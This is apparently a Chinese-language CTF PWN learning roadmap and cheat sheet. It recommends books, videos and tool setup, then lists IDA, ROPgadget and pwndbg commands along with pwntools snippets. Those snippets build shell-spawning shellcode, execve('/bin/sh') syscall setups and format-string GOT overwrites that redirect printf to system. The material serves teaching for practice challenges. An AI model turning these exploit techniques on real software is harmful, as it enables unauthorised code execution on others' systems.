

```C
                                  满纸荒唐言，一把辛酸泪。
                                  都言作者痴，谁解其中味。
```

目前的进度是已经学完了栈溢出的基本知识和堆漏洞的基本知识，虽说好久不用有些遗忘了的说。。。主要还是因为自己觉得遇到了比较大的瓶颈，在数据结构，算法，操作系统的基本知识上还是有很多欠缺，其次就是自己的逆向水平也急需提高，最近打PWN发现对逆向还是有一定的要求的，故决定潜心修行一番，锻炼锻炼基本功。不过现在来看自己好像也闲不住，算了，那就都齐头并进吧。不过最近的工作目标一定是先把自己的期末考试挨过去……

##### 1.前期知识铺垫：

PWN是出了名的学习路线陡峭的方向，所以前期铺垫知识比较多。

###### 一. 王爽 著《汇编语言》

这里还有一个我曾经写过的一个小的学习笔记[(7条消息) 关于8086汇编语言offset的一些发现_I安达樱I的博客-CSDN博客_8086 offset](https://blog.csdn.net/a13514635451/article/details/125109786?spm=1001.2014.3001.5502)

其实是不用看书的（因为后面有的是看的），我估计大家也看不进去，就算看进去了，汇编语言不像大部分高级语言，运行环境啊，IDE什么的都十分的齐全，需要自己手工去搭建，折腾来折腾去自己就疲倦了，打击了学习的动力。

[通俗易懂的汇编语言（王爽老师的书）_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1Wu411B72F/?spm_id_from=333.337.search-card.all.click&vd_source=b314029011d9329bde294be3159d5d83)

其实是有教学视频的，贺利坚老师讲的相当不错，而且在视频中还经常带大家实操一下，而不是仅仅“坐而论道”而已，最重要的是，这个视频下面的评论区的置顶中的网盘资源中有可以拿来就用的8086汇编运行环境（DOS系统+MASM+DEBUG，开箱即用。至于编程的话，其实用记事本就行。。。快去体验一下原生编程的快感吧！！）代码做到能看懂就行，简单的敲一敲，感受一下和CPU直接交流的“快意恩仇”就好，学汇编和学一般的编程语言还是有些不同的。至少在我看来原因有三：

1\. 如今汇编语言在编程方面基本上已经没有什么价值了，而且本书后四分之一段讲解的是DOS系统调用和BIOS中断的使用，其实如今的价值已经微乎其微了，但是了解一下还是好的，因为中断和操作系统调用万变不离其宗，无论怎么发展，最底层机理还是一样的。其次汇编语言的编程习惯其实和高级语言是有很大不同的，汇编语言给人的价值在于它可以使大家更加深入的了解计算机内部到底是怎样运行的，个人认为学习汇编语言比在学校里学“计算机概论”来了解计算机要好很多，在此基础上学习“计算机组成与原理”，“编译原理”等接近计算机底层的知识时会理解的更加深刻，学起来更加轻松。

2\. 其实就算我不说，君到后来也会意识到用汇编语言编程在绝大多数情况下简直就是“问君能有几多愁，恰似一江春水向东流”！！！

3.其实你学的那点根本不够……因为现在都x64时代了，当然了汇编的精髓并不是在于其编程，而是在于对于硬件层调用和基本操作系统的实现上。

###### 二. 李忠 著《X86汇编语言 从实模式到保护模式》

这个和上面一样，不但有书，同时也是有教学视频的

[计算机语言 x86汇编语言：从实模式到保护模式（操作系统引导课） 原书作者李忠制作 少量字幕_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1xE411N74T/?spm_id_from=333.337.search-card.all.click&vd_source=b314029011d9329bde294be3159d5d83)

但是它不全哈……虽然它不全，但是这里边却有相当多珍贵的知识点，比如Virtual box虚拟机的使用，notepad++，NASM与MASM，和通过Bochs虚拟机来搭建真正的汇编语言运行环境，基本的计算机硬件知识，（主引导扇区，磁盘读写），基本上零基础就可以学习的，讲的非常细。对于已经学习过王爽《汇编语言》的我们来说，个人建议是对于前面的这些和汇编无关的知识点反而是最重要的。

因为在以后的学习过程中大家还是会用的到的。

之后要是还想看的话在网易云课堂上有全套的教学视频，但是是收费的（学生打八折还是七折来着，打折后五百多将近六百吧好像），至于说要不要去买就纯看各位自己的意愿就好了，其实要是不太拮据的话，买一个还是挺好的（非广告，纯属个人心得体会,因为我就买了），结合书和书自带的配套学习资源，可以使学习效果更加精进，因为该书的内容确实很多很多……多的有点“男默女泪”。

相较于王爽老师的《汇编语言》注重汇编语言编程方面的讲解，这本书更加强调汇编语言的实际应用，本书的前一半讲解的还是基本的8086汇编基础，但是同时又讲解了很多有关计算机组成和操作系统的最基本知识（主引导扇区，逻辑扇区，加载器，硬盘分区读写，硬件接口的读写使用）来为之后的进入保护模式做铺垫，同时本书使用的是NASM（开源汇编语言编译器），而《汇编语言》使用的是MASM（微软闭源汇编语言编译器），两种编译器的使用方法是有些差别的。所以，个人建议是前半段看书，权当复习，要是看视频的话我估计你会“急急国王”，因为确实有很多知识已经学习过了。

本书的后半部分是绝对的重点，讲解的是x86汇编，保护模式，分页机制，平坦模式，同时本书会为大家实现一个简单的操作系统内核，了解一下操作系统最最最最基本的工作思想，说句实在话，对我而言，学这些的时候真是有那么一点“感时花溅泪，恨别鸟惊心”，难度确实和之前比有很大的提高，而且由于本书很讲究“实践”，大部分知识点都会用汇编语言具体实现一下，有利有弊吧。“利”是它非常直观地为大家体现了这个知识点的应用，学起来非常热切亲近 。 “弊”就是这样做的话有点“墨迹”了，用现在眼光看用汇编实现内核多少有点“炫技”了，等大家学起来就知道汇编语言是有多么的“凄凄不似向前声，满座重闻皆掩泣。”了，代码又长又晦涩，读着跟佛经似的，即使本书的代码有非常细致的注解，但是读起来还是比较考验耐心的。但是呢跳过还不行，跳过了后面的你又看不懂，就算没跳过，书读完了或者视频看完了又可能会忘……个人建议是大家找几部好番剧，看腻歪了学不进去了就去看一集番剧，心情好了之后继续学，努努力把这锅“六十万对八十万的夹生饭”咽下去。

这里加一点“闲话”，说句实在话，学汇编，不，其实无论那个学科，学底层的东西都是很枯燥无聊的，尤其是对于计算机这种非常“浮躁的”学科而言，尖端的非常尖端，如“人工智能”，“元宇宙”，“智能合约”，“大数据”等，底层的又非常底层，甚至能达到要去研究具体电路的实现上。学科知识不仅比较抽象又超级多且分支非常复杂，而且讲真，由于计算机学科发展比较快这个因素，你可以说它特别“务实”，也可以说它非常“急功近利”，学的时候会迫切地想要“成果”，所以学的时候就很容易“走火入魔”，具体表现就是为了快速攻克知识点，在短时内不停地“冲刺”，“快跑”，导致事实上知识点没有得到良好的消化，而且由于学习效果不好，学习的热情被严重的打击到了，还会让人感觉非常的累，反而导致学习速度的降低，所以要学会适时的放松，伟大导师列宁同志曾经说过：**“不会休息的人就不会工作。”**，总而言之，就一句话吧。
```c
                                  ——非淡泊无以明志，非宁静无以致远。
```
###### 三 .《C Primer Plus》

其实现在回想起来，我觉得要是先学汇编再学C语言效果会不会好一点，在理解指针，内存管理，栈的使用，函数调用方面会不会更好一点，况且按照历史的发展角度上讲，人类也是先发明了汇编语言，然后在汇编的基础上开发了C语言，所以也有人讲：“C语言是一门高级的汇编语言。”

当然啦，这只不过是“异想天开”而已，真这么干的话，我估计你会“无聊死”，毕竟先学汇编的话，沉没时间太长了。人生在世，要是没点“奖励”的话，是会走不下去的。学完C语言的话可以做一些小游戏，单片机项目什么的。先学汇编的话君估计还是“曾经那个啥也做不出来的少年”，现在大学科班基本上都教C语言或者是C++，所以不用刻意去学，跟着学校的进度走就可以。本人之所以把C语言放在第三步，主要是希望大家在学完汇编后能回顾一下C语言那些令人“智熄”的地方（尤其是函数指针这种“离谱”东西），我相信那些曾经百思不得其解的地方，马上就会“一页风云散”的。（其实要是时间充沛的话，可以看看《**C++反汇编与逆向分析技术解密**》）

###### 四. Linux基本操作与Python基础编程

这里我就不推荐书籍了，因为这个东西你要是指望看书的话但凡有点希望也不至于一点希望也没有了。我估计对Linux有过了解的人都知道有一本名扬华语圈的Linux著作《鸟哥的Linux私房菜》，我的个人建议是：不用读。为什么？因为你根本读不下来，太厚了，太多了，一千多页，对于我们来说着实有些“过”了（计算机的“圣经”级书籍多少都有这个毛病，就是太多太厚了，以本科这短暂又忙碌的四年来说，确实很费劲。），它比较适合立志成为运维的人来看，我们其实只需要学些Linux操作的基本“皮毛”就可以。

[黑马程序员Python教程_600集Python从入门到精通教程（懂中文就能学会）_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1ex411x7Em/?spm_id_from=333.337.search-card.all.click&vd_source=b314029011d9329bde294be3159d5d83)

有人说，不是说学Linux吗？怎么变成Python了呢？，君打开就知道了，这个教学视频不仅讲授Python，在前半段还讲解Linux（Ubantu）的基本应用，你要是能掌握这些就完全足够了，同时顺道把Python好好地掌握一番，以便日后用Python写PWN脚本，想打PWN，Python是必学的。

如果能把以上这些内容大致过一遍，基本就可以入门PWN了，剩下的就“逢山开路遇水搭桥”吧\~\~\~，基础已经打好了，再继续学会轻松许多。

#### 2.运行环境搭建

CTF中的PWN基本上都是在Linux操作系统上开展的，所以在练习时必须要搞个虚拟机运行Linux，在这里推荐大家使用Virtualbox虚拟机而不是VMware。

原因有二：

1.  Virtualbox比较小巧轻便，我本人的电脑是联想拯救者Y7000,用VMware运行Ubuntu 20.04多少还是有点卡顿的，而使用 Virtualbox 则能很流畅的使用。
1.  VMware虽然更加稳定同时功能强大，但是实际上我们都“用不到！”，还有就是我也不知道是我本人人品问题还是我的这个VMware版本有问题（16.2.3），就这个VMtools和共享文件夹，简直就是我的死敌，甜蜜的死敌！！，可以看看我在CSDN发的文章[(7条消息) VMpro16.2，ubantu安装vmtools实现文件共享和如何安装搜狗输入法_vmware虚拟机怎么安装搜狗输入法_I安达樱I的博客-CSDN博客](https://blog.csdn.net/a13514635451/article/details/124785531?spm=1001.2014.3001.5501)，现在想想都怒发冲冠，而Virtualbox虽然功能少，但是使用起来非常简单，基本上就是“小笨蛋模式”，共享文件夹，文件拖拽，粘贴板共享，手到擒来，所以我本人强烈推荐Virtualbox。最后就是搞过VMware的人都知道，第一次下载的时候很容易连下载地址都找不到……

Linux有超级多的发布版，我本人也用了很多个（目前用过Ubuntu，Centos，Kali，国产的Deepin），至于我们要用哪一个呢？？？？？？

那当然是——Ubuntu

至于为什么？请看这个——（我估计君现在也看不懂，到时候再看就可以）

[(3条消息) Pwntools 2022简明手册_ZERO-A-ONE的博客-CSDN博客_pwntools手册](https://blog.csdn.net/kelxLZ/article/details/123152529)

简单来说就是因为我们在打PWN的时候所用的工具Pwntools只有在Ubuntu 18.04或20.04（其实Ubantu最新版也没事）上是保证绝对可以正常运行的。不要作死去用其他的Linux版本，我之前用的就是Deepin，结果。。。。。。。折腾了一大天加一小天的徒劳无功之后，看到了这个伟大的文章（在这里给 [ZERO-A-ONE](https://blog.csdn.net/kelxLZ)大神赛博磕一个），终于“痛彻前扉，大彻大悟”，投入了Ubantu的怀抱中。

（不过话说回来Deepin其实用起来真心很不错，自带Wine，里面内置的软件中心简直就是大赞，可以直接下载搜狗输入法（在Ubantu下载过搜狗输入法的肯定深有体会。），百度云盘，WPS等办公软件，而且界面はとてもキラキラです，作为主操作系统的话办公和简单的娱乐是基本没有问题的，不过确实不适合我们打PWN，终究还是“错付”了。【到底是我错付了它，还是它错付了我呢？】）

至于在哪里下载镜像文件，怎么在虚拟机中运行，这个就请自行开搞吧。

把这个当做是走向PWN的第一关吧。

当这些都做完之后呢，在这里再向大家推荐个视频——

[你想有多PWN(开始更新)_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1mr4y1Y7fW/?spm_id_from=333.337.search-card.all.click&vd_source=b314029011d9329bde294be3159d5d83)

其实我本人入门pwn靠的就是这个视频教程，不得不说真的大赞（在这里给 国资社畜 大神赛博磕一个，这个视频可以说是讲的非常细致入微了，我写这个文章的“初心”就是想给这个教学视频出一点辅助资料，做一下补充（蹭热度）。

基本所需工具为：Pwntools，LibcSearcher，Pwndbg，IDApro，ROPgadget，One_gadget, ClashForWindows，其他的我还没用上，以后再说。

至于这些工具怎么下载，还请自行百度。在这里我讲讲几个网上不好找资料，安装比较困难的几个。

​                                                                **——** **十五从军征，八十始得归。**

###### **① LibcSearcher 请参考： [LibcSearcher · PyPI](https://pypi.org/project/LibcSearcher/)**

###### ② Clash for Windows

这里分享一下我的理解（纯属是自己粗略到不能再粗略的理解，甚至都不一定对，要是有行家的话，热烈欢迎斧正）。你光下了这个软件是不行的，你只是下载了一个没有子弹的枪而已，至于“弹夹”你还得买，购买了“弹夹”（网络配置包）之后你才可以。

在这里我还得说一下这个施法也是有些讲究的，不同的操作系统所用的“弹夹”是不一样的，虽然 Clash for Windows 也是有Linux版本的，请参考这个：

[Linux 下 Clash 桌面版安装配置 - 简书 (jianshu.com)](https://www.jianshu.com/p/543510e3d287)

（按照这个教程可以在Ubantu 20.04下完美运行Clash for Windows，其他的教程反正也不知道是不是我个人 人品问题，最后一步运行 . /cfw 总是报错，按照上面这个教程操作才可以正常运行 ），但是售卖“Linux弹夹”不是很多。同时还有一件事就是，有的同志可能认为“我可以让主机Windows“走”，然后让虚拟机的Linux也跟着“走”不就完了。”其实这样的话“只知其一而不知其二”，如果这样做，会出现什么情况呢（这里假设虚拟机用的是NAT模式）——主机能走，而你的虚拟机却无法跟着走。至于为什么这主要是因为NAT模式实际上绕过了我们的VPN（详见请参考 [虚拟机共享主机VPN连接 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/380614384) 及 《图解TCP/IP》）所以“为之奈何”呢？有的资料给予的方法是将虚拟机的网络设置改为“桥接模式”，BUT，我也不知道是不是我人品问题，Virtualbox竟然直接报错了！！！所以又“为之奈何”呢？

众所周知，所谓计算机安全的历史，就是一部兵刃与鲜血的，哦不，就是“绕过与“想绕过！看我一脚给你踹出去””的历史，就是一部“四两拨千斤”的传说。所以我们这么办！

[无需软路由，一网在手，全家都有。 - 爱远眺 (iyuantiao.com)](https://iyuantiao.com/fenxiangfuli/jiaocheng/sharing-scientific-online-tutorials-simple-2-steps-clash-ssr-v2rayn-small-rocket-no-soft-routing-one-network-in-hand-the-whole-family-has-it.html#:~:text=1%E3%80%81Clash%E8%BD%AF%E4%BB%B6%E7%9A%84%E4%BB%A3%E7%90%86%E6%8C%89%E9%92%AE%E2%80%94%E2%80%94System Proxy %E6%89%93%E5%BC%80 %EF%BC%8C%E7%84%B6%E5%90%8E%E5%9C%A8%E6%8A%8AAllow,LAN%E6%8C%89%E9%92%AE%E6%89%93%E5%BC%80%EF%BC%8C%E5%85%81%E8%AE%B8%E5%B1%80%E5%9F%9F%E7%BD%91%E8%BF%9E%E6%8E%A5%E3%80%82 2%E3%80%81%E5%9C%A8%E4%B8%8A%E5%9B%BE%E7%9A%84%E7%95%8C%E9%9D%A2%E4%BC%9A%E5%87%BA%E7%8E%B03%E4%B8%AAIP%E5%9C%B0%E5%9D%80%EF%BC%8C%E6%88%91%E4%BB%AC%E9%9C%80%E8%A6%81%E7%94%A8%E5%88%B0%E7%9A%84%E5%B0%B1%E6%98%AF%E7%AC%AC3%E4%B8%AA168.2.182 Wlan%E5%A6%82%E4%B8%8A%E5%9B%BE%EF%BC%8C%E8%BF%99%E4%B8%AA%E4%B9%9F%E6%98%AF%E6%9C%AC%E6%9C%BA%E7%9A%84IP%E5%9C%B0%E5%9D%80%E3%80%82 3%E3%80%81%E8%BF%98%E9%9C%80%E8%A6%81%E7%94%A8%E5%88%B0%E7%9A%84%E6%98%AF%E4%B8%80%E4%B8%AA%E7%AB%AF%E5%8F%A3%EF%BC%8CPort%E7%AB%AF%E5%8F%A3%E4%B8%BA%EF%BC%9A7890)

请参考这篇文章，实现“一人得道，全家上天”。

###### ③ One_gadget

我真觉得我是上辈子犯了罪，人品简直差到爆棚，按理来说这个软件安装起来简直就是“纸糊的门 —— 一踹就开”。

[(3条消息) one_gadget 下载 安装 与使用_yongbaoii的博客-CSDN博客](https://blog.csdn.net/yongbaoii/article/details/109101822)

结果就遇到了可以说是我人生中的“石达开过大渡河”。

```shell
sudo gem install one_gadget
```

就这条指令，死活就不好使，总是显示无该连接，要不就是网络连接失败，我最开始还以为是因为长城的封锁导致无法访问，结果就换成了“淘宝”的Ruby镜像源（后来才知道其实早就停止运营了），然后也好使，遂决定让Linux挂VPN！，结果魔幻的事情出现了，还是无法在shell中安装下载，但是吧我把网址输入浏览器之后呢，还能访问，也能下载（惊！），但是下载下来的包解压了之后我也不会安装，而且它也不是正常的解压就完了，还有很多的依赖关系需要我们去安装，这……

我可真是什么办法都使用了，国内的，国外的，什么GitHub上的论坛，什么Stack Overflow我也看了，最终人家给出的最终解就是：

输入命令

```shell
sudo gem install --system
```

更新Rubygem

可是呢？结果呢？然后呢？完了呢？还是不好使，因为压根就连接不上服务器。

但是没有关系，爷还有招，最后赢的一定是爷！（暴怒

我后来通过学习发现，这个one_gadget是用Ruby语言写的。而这个Ruby语言是个什么东东呢？如果说Python是佛界的“现在佛”，那么Ruby就是“过去佛”，过去风头无量，可惜现在就是（至少在国内）”旧日黄花”，用的范围不是很大，同时gem的用途和Python的pip是差不多的，都是软件包管理器。

其实前面这些都没什么用，我主要想说的是，我发现Python和它差不多，既然如此，那么它是不是能跨平台呢？既然我Linux安不了，那么我可以在Windows上安装Ruby和Rubygem，然后安装one_gadget。虽然麻烦点但是这样不也可以吗？

BUT，前面这几步虽然走的很好，最后也成功下载了one_gadget，可是最后呢！！！运行分析libc.so.6时竟然报错了（注意是最后运行软件分析libc时出错了，这里划重点）缺少相应的组件，啊啊啊，然后我就不会了，彻彻底底不会了，用《老三国》最后一集姜维姜伯约的那句话讲：“我计不成，此乃天命！”彻底废了，放弃吧，看来“我”和“她”无缘啊，下辈子再说吧。

one_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadgetone_gadget君がないあ、私はどうしよう、私だけ見て欲しい、行かないて、ずっとずっとそばにて、そばにて、お願い！

放松一下吧，看会儿《电锯人》吧。

“无论被打倒多少次，他都会拉响引擎，卷土重来！”

唯物辩证法告诉我们：“ A 要先等与 -A ，再等于 -（-A） ，然后才能成为真正的 A 。”。

所以赢的最终一定是爷！！！

我突然灵机一动，gem本质上是个软件包管理器，既然它可以下载线上的软件，那么我们可不可以让Windows下载软件压缩包，然后用共享文件夹送到Linux下，让它离线安装！

​                                                       **有志者，事竟成，破釜沉舟，百二秦关终属楚。**

​                                                       **苦心人，天不负，卧薪尝胆，三千越甲可吞吴。**

具体请参考：

[npm包与gem包--在线&离线安装 - -渔人码头- - 博客园 (cnblogs.com)](https://www.cnblogs.com/imwtr/p/6007067.html)

这里给（渔人码头 大神 赛博磕一个大的）

#### 3.下面再记录一下我如今学习到的一些知识点：

###### ① IDApro 常用指令：

```c
A //内存以字符串显示

C //以代码显示，用完U指令后摁C指令就可以复原

D //以字节显示，重复摁可以以b，w，dw显示

U //取消定义函数、代码、数据的定义，直接就全给拆成db数据

R //将目标数据转换为ASCII码

N //给目标函数或变量重命名

/ //选定一段区域，添加注释

\\ //取消系统自带注释

CTRL+X //查看交叉引用

Shirt+F12  //搜索字符串

ALT+T //输入字符串

CTRL+T //寻找下一个

Jump to address //快捷键为G
```

###### ② ROPgadget 常用指令：

```shell
ROPgadget --binary 目标文件 输出文件

ROPgadget --binary 程序文件 --only “pop|ret” 可以把想要的指令打印到控制台

ROPgadget --binary 程序文件 --ropchain 获得ROP链，在面对 gets() 这种不限字长的时候可以直接用。
```

###### ③ ropper 

 （和ROPgadget 差不多，但是它是多线程的，在分析比较复杂的程序时速度快）

```shell
ropper -f 目标文件 （but 环境我没整下来QAQ,具体是什么样的我还没尝试过）
```

###### ④ ldd

```shell
ldd --version 直接查看本系统的glibc版本

ldd 程序名 查看程序动态链接库相关信息

ldd --help 显示帮助信息
```

###### ⑤ 函数调用顺序

 ***x86***

```C
//使用栈来传递参数

//使用 eax 存放返回值
```

 ***amd64***

```C
//前6个参数依次存放于 rdi、rsi、rdx、rcx、r8、r9 寄存器中

//第7个以后的参数存放于栈中
```

###### ⑥ ROP攻击不好使

遇到没有能够操控rdx的指令的时候，如果要是动态编译的话，我们就可以使用反编译后的

\_libc_start_init 中的内容来进行控制rdx的内容

如果要是静态编译的话，就没有system 让你用了，我们就要去exec中去使用syscall中断（64位），int 0x80 中断（32位）

```C
//syscall 中断号为：0x3b（rax） 参数要求为：rdi /bin/sh si 0 dx 0

//int80 中断号为：什么什么（eax） 参数要求为：rbx rcx rdx
//(因为用的不多，我也没遇到过，用的时候现查就行)
```

至于说上哪里去查找中断号：

在 **/usr/include/x86_64-linux-gnu/asm/**下有两个文件：

```C
//unistd_64.h 记录的是六十四位syscall中断号

//unistd_x32.h 记录的是三十二位int80中断号
```

⑦ gcc 编译指令

```shell
	NX：-z execstack / -z noexecstack (关闭 / 开启) 栈不可执行

	Canary：-fno-stack-protector / -fstack-protector / -fstack-protector-all  (关闭 / 开启 / 全开启)

	PIE：-no-pie / -pie (关闭 / 开启)  地址随机化

	RELRO：-z norelro / -z lazy / -z now  (关闭 / 部分开启 / 完全开启) 对GOT表具有写权限
```

###### ⑧ C/C++的数据类型大小


###### ⑨ Linux 查看文件plt表项的指令

```shell
	readelf -a 目标文件
```

###### ⑩ pwndbg命令

```c
    start  //开始调试程序	

    p &system
    
	p $rbp

	set *0x55555555=10 //ps: 只能修改四个字节的内容
        
    set *(unsigned long int *)0X5555555 = 0X55555555 //PS: 这才是set的真正完全体

	x /10gx 0x555555

	x /20s 0x5555555   //以字符串形式显示数据
        
    heapinfo           //也是查看堆宏观信息的指令，优点是可以看到top_chunk和reminder

	parseheap          //显示堆宏观信息，但需要安装pwngdb插件
        
    heap               //也是显示堆空间的宏观信息，同时还显示被分配的堆空间的情况
    
	bin                //显示各堆宏观信息
    
	fastbins           //查看fastbins的宏观信息

	vis                //显示从堆起始地址开始内存空间各个字节信息，非常有用
    
	set context-sections code  //调试源代码程序时，不显示汇编代码
    
	dq &target         //以四个字为单位查看这个变量附近的值(还有db，dw，dd)
    
	p __malloc_hook

	dq &__malloc_hook 20
    
	ptype 变量名       //主要用来查看“变量名”所属结构体的定义

	p 变量名           //查看变量对应的值，要是变量是个结构体的话就直接把它结构体里所有量的值都显示一遍
    
	f 数字             //例如 f 4 转换到第4层函数（第四层栈帧）
        
     context code      //显示当前函数（栈帧）代码
    
	find_fake_fast &__malloc_hook
    	
     find_fake_fast &__free_hook
     
     u 地址             //将地址处的数据转换为反汇编代码
     
     b *__malloc_hook   //估计这就是所谓的“下断点技巧”吧……
        
     regs               //查看各寄存器值
	
     pype main_arena    
     
     ptye main_arena->fastbinsY
        
     p &main_arena->fastbinsY[3]
        
     p main_arena->top //注意：main_arena->top 的类型为mchunkptr 为指针
        
     xinfo 0x602060    //查看地址相关信息，偏移，虚拟内存地址所属段等
        
     dq mp_.sbrk_base 20 //有时候进行堆攻击时可能会彻底破坏对结构导致‘vis’指令失效，所以这个时候就可以用这个                            指令查看堆空间信息
     ptype /o struct _IO_FILE  //查看这个结构的定义,其中“/o”为显示偏移
     
     dt "struct _IO_FILE"  //在pwndbg中也可以使用这个指令来查看结构体定义同时带偏移，不过和上一个有一点差别
     
     dt "struct _IO_FILE_jump"  //查看跳表结构类型及具体偏移量
         
     dt "FILE"   //在pwndbg中如果就是想看_IO_FILE的结构体定义，也可以直接这么简略写
         
     p *_IO_list_all  //具体显示结构体的每一个值
         
      
     //在pwndbg中 small bins 中位于队列前边的（就是马上就要发射的）编号大，和咱们印象正好相反。
         
     break if $rcx == 1  //把断点打到寄存器上！
         
     del  //清除所有断点
     
     info b //查看所有断点信息（与del配合使用，看看杀没杀干净（邪恶
     
     f 3  //查看栈帧

```
###### ①①. 沙箱使用指令：
```shell
seccomp-tools dump ./one_punch
```
###### ①②. patchelf常用指令：
```shell
patchelf --set-interpreter glibc-all-in-one/libs/2.34-0ubuntu3_amd64/ld-linux-x86-64.so  babyheap
patchelf --set-rpath  /glibc-all-in-one-master/libs/2.34-0ubuntu3_amd64/ babyheap
#注意第一个指令要明确指明链接器的地址，第二个指令只要也必须指定到libc.so.6所在的文件夹就行，指明确了反而会导致patchelf失败。
```

###### ①③. 如何干死一个进程（Linux版）：
```shell
pgrep -fl clion 
#获得应用程序进程号
#得到大概这么个东西   12345 /path/to/clion
#然后————
kill -9 12345
```

#### 4.一些会用到的pwntools程序

*注：以下只是一些代码片段，用的时候仿造这个模板就可以*

##### ①. 环境配置
```python
from pwn import *

context(log_level="debug",arch="amd64",os="linux")

#经典环境配置
```


##### ②. 对 libc 和 plt表的操作

```python
pwnfile="kaixin"

io=process(pwnfile)

elf=ELF(pwnfile)

padding=((rbp_address-buf_address)+8)*b'a'

write_thing=b'/bin/sh\x00'

system_addr=libc_base+elf.sysbols["system"]

system_addr=elf.plt["system"]

write_to_addr = elf.bss() + 0x100
#将想要写的内容放在bss段上

#对 libc 和 plt表的操作
```


##### ③. payload制造格式

```python
#payload制造格式

payload_2=b'%7$saaaa'+p64(puts_got)

line_1=flat([padding,pop_rax_pop_rdx_pop_rbx_ret_address,read_interupt,0x8,0xdeadbeef])
```


##### ④. 字节收发控制
```python
#发送字节数据

io.sendlineafter("input:",line_1)

io.sendafter("input:\n",bin_sh)

io.send(write_thing)

#收字节数据的几种姿势：

io.recvuntil("input:\n")

last_stack_frame=int(io.recv()[2:14],16)

puts_addr=u64(aa.ljust(8,b'\x00'))

io.recv(2)

b=int(io.recv(14),16)
```


##### ⑤. shellcode编写控制
```python
#shellcode编程

password=asm(shellcraft.sh())

password=asm(shellcraft.sh()).ljust(padding,b'\x00')

io.sendlineafter("input:",password)
""""
这个写shellcode的方法可确实有点让人吃惊……
""""
shellcode = asm("jmp $+0x20") #相对短跳转 正号表示向后跳转
shellcode += asm("nop") * 0x20 #乘法不能写里边
shellcode += asm(shellcraft.execve("/bin/sh"))
#jmp语句确实不好写，要么就像我这么写，要么就利用寄存器赋值去写
#比如：
shellcode = asm("mov rax,0x7fffffff")
shellcode += asm("jup rax")
```


##### ⑥. gdb调试

```python
#gdb调试

gdb.attach(io)

gdb.attach(sh, '''
# 添加断点在 __malloc_hook 处
break *{}
commands
  # 查看栈信息
  info stack
  # 继续执行
  continue
end
continue
'''.format(hex(__malloc_hook_addr)))
#这就是一个很猛的调试指令了

"""
break *{}
commands
  # 查看栈信息
  info stack
  # 继续执行
  continue
end
#这是一组指令，表示当断点触发时，会立刻进行这些指令，这个continue就是指程序继续进行的意思，相当于帮你补了个c命令。
#整个调试指令宏观上就是
break *{}
continue
#当触点没有被引发时，gdb只是挂载在上面而已，只有当触发时，才会进入调试阶段。
"""

#但实际上咱们由于有插件，而且是汇编调试，用不到这么多，所以我们用的话就这么就好了
gdb.attach(sh, '''
break *{}
continue
'''.format(hex(__malloc_hook_addr)))

#完了还有一招比较狠的方法：

# *__malloc_hook_addr = 0xDeadBeef
gdb.attach(sh, '''
break *{}
continue
'''.format(hex(__malloc_hook_addr)))

#这样的话程序在执行到__malloc_hook时就会崩溃，但是由于断点的存在，gdb不会退出，你还是可以查看到，在hook被执行的一瞬间所有的内存信息。
```


##### ⑦. 格式化字符串相关
```python
#格式化字符串

payload_1="%41$paaa"

payload=b'%100c%10$hhnaaaa'+p64(bi_jiao_addr)

payload_3=fmtstr_payload(6,{printf_got:system_addr})

payload_3=fmtstr_payload(6,{printf_got:system_addr,printf_got_1:system_addr_1})

#偏移量其实就是说你的第几个%？$hhn是老几！

"""

fmtstr_payload(offset, writes, numbwritten=0, write_size=‘byte’)

第一个参数表示格式化字符串的偏移；

第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT:systemAddress}

第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；

第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。

fmtstr_payload函数返回的就是payload

"""

payload_10=b"%"+str(system_addr_0).encode("utf-8")+b"c%7$hn"

payload_10+=b"%"+str(0x10000+system_addr_1-system_addr_0).encode("utf-8")+b"c%9$hn"

payload_10+=b"%"+str(0x10000+system_addr_2-system_addr_1).encode("utf-8")+b"c%15$hn\x00"

```


##### ⑧. LibcSearcher 老版用法和新版用法
```python
#pwntools 使用libc方法

